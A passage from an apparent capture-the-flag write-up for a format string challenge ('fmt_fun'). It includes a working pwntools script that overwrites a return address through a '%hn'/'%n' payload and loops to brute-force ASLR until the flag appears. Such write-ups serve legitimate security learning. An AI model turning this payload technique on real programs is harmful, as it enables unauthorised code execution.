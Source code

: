 and then we can use a format string pointing to address Y to **change value inside Address W**, __(return address)__ to **win**, which will let the program return to win and give us the flag.

However, it is rather tricky as we have to do all of this in one shot. 

We have to take note that we cannot use more than one positional write at a time, as it would create a shadow stack and prevent our values from being modified.

### Exploit Script

```python
# coding: utf-8
from pwn import *
import re

count = 0

with log.progress("Brute forcing 1/4096 chance") as pro:
    while True:
        with context.quiet:
            context.binary = elf = ELF('./fmt_fun')
            if args.REMOTE:
                p = remote('fmt-fun.chal.imaginaryctf.org', 1337)
            else:
                p = process('./fmt_fun')


        p.clean()
        p.sendline(("%c"*7 + f"%{0x02c1}c" + "%hn" + f"%{elf.sym.win-0x02c3}c%37$n").encode())

        with context.quiet:
            y = p.recvall().strip()
            x = b'ictf' in y
            p.close()

        if x:
            with open("flag.txt", "wb") as f:
               f.write(y)

            success("Flag found")
            break
        else:
            count += 1
            pro.status(f"{count}\n")

```

Do take note that because of ASLR, we will have to brute force 3 bits which only gives us a low probability of **1/4096** for our exploit to work.

Nevertheless, after running it for around **1000** times, we get our flag. 

### Alternative Solution
